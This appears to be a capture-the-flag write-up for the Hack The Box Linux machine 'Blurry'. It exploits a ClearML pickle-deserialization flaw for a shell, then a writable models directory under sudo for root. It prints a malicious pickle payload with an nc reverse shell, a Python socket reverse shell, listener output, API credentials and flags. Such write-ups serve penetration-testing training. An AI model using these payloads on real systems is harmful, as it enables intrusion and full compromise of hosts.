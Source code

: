 ```yaml
---
layout: post
title: "HTB Linux Medium: Blurry"
description: "Blurry is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 22,80 10.129.83.207
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-06-11 10:37 EDT
Nmap scan report for app.blurry.htb (10.129.83.207)
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds
```

Modify hosts file:
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.83.207 app.blurry.htb blurry.htb
```


## Enumerate HTTP (Port 80)
The `blurry.htb` domain redirects to: `app.blurry.htb`.
![Pasted image 20240714212110.png](/images/Pasted image 20240714212110.png){: .normal }


Enter a name and press start.
![Pasted image 20240714212104.png](/images/Pasted image 20240714212104.png){: .normal }


Found a CVE for clearml, create the following script: [Link](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/)
```bash
import pickle
import os
from clearml import Task

class CMD:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | ''/bin/sh -i 2>&1 | nc 10.10.14.85 1337 > /tmp/f')
        return os.system, (cmd,)

task = Task.init(project_name='Black Swan', task_name='exploit', tags=["review"], output_uri=True)
task.upload_artifact(name='pickle_artifact', artifact_object=CMD(), retries=2, wait_on_upload=True)
```

Setup before script execution:
```bash
# Hosts file
10.129.83.207 app.blurry.htb blurry.htb api.blurry.htb files.blurry.htb

# Python dependencies
pip install clearml
cd /home/kali/.local/bin
./clearml-init

# Create app creds: settings/workspace-configuration
Paste copied configuration here:
api { 
    web_server: <http://app.blurry.htb>
    api_server: <http://api.blurry.htb>
    files_server: <http://files.blurry.htb>
    # test
    credentials {
        "access_key" = "6HDJONYS7ZPR5RPCRZ27"
        "secret_key"  = "BpHQ93iWfZNUsbo4gXyHMIRIjozAC378lo7qkB6nz6ZZhN7eDK"
    }
}
```

Shell as jippity:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.83.207] 40314
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

User.txt: `23cc38ffa8a810eea5e6c4ea5150196f`
```bash
$ cat user.txt
23cc38ffa8a810eea5e6c4ea5150196f
```


## Privilege Escalation
Sudo -l output:
```bash
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

We have full permissions on the directory, meaning we can replace the content of the evaluate_model.py file with a reverse shell:
```bash
# ls -al | grep models
drwxrwxr-x   2 root jippity  4096 Jun 11 11:12 models
```

Modify evaluate_model.py.
```bash
# Create new file
jippity@blurry:/models$ mv evaluate_model.py evaluate.py
jippity@blurry:/models$ touch evaluate_model.py

# Content
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.85",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Execute:
```bash
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
```

Shell as root:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.83.207] 53244
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root.txt: `2b2599ad8fc612e810a0c2299d34344d`
```bash
# cat root.txt
2b2599ad8fc612e810a0c2299d34344d
```


## PWNED!!!
![Pasted image 20240714212052.png](/images/Pasted image 20240714212052.png){: .normal }